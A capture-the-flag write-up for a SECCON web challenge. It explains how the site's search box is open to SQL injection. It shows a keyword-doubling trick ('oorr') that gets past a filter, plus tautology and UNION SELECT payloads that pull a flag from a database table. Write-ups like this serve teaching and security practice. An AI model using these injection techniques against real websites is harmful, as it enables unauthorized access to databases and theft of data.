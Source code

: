 # web-web-search

## TASK

Get a hidden message! Let's find a hidden message using the search system on the site.

http://web-search.chal.seccon.jp/

## Description

URL: http://web-search.chal.seccon.jp/

PAGE:
```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Articles</title>
</head>
<body>

<form action="./" method="get">
    <input type="text" name="q" value=""><input type="submit" value="Search">
</form>
<dl><dt>RFC 748</dt><dd>TELNET RANDOMLY-LOSE Option</dd>[...]</dl>
<p>
            Prev
        /
            <a href="./?page=2">Next</a>
    </p>

</body>
</html>
```

The input value is reflected, but you can see that it has been partially deleted

`GET /?q='or''='`　->　`<input type="text" name="q" value="'''='"><input type="submit" value="Search">`

`or` has been deleted!!

# Solution

For example, if I want to use or, I can bypass it with oorr

```
GET /?q=' oorr 1=1 -- - HTTP/1.1
Host: web-search.chal.seccon.jp

```

Response:
```
...
<dd>The flag is "SECCON{Yeah_Sqli_Success_" ... well, the rest of flag is in "flag" table. Try more!</dd>
...
```

Next query:
```
GET /?q=ss' UNION SELECT * FROM (SELECT @@version)a JOIN (SELECT * from flag)b JOIN (SELECT 3)c -- - HTTP/1.1

```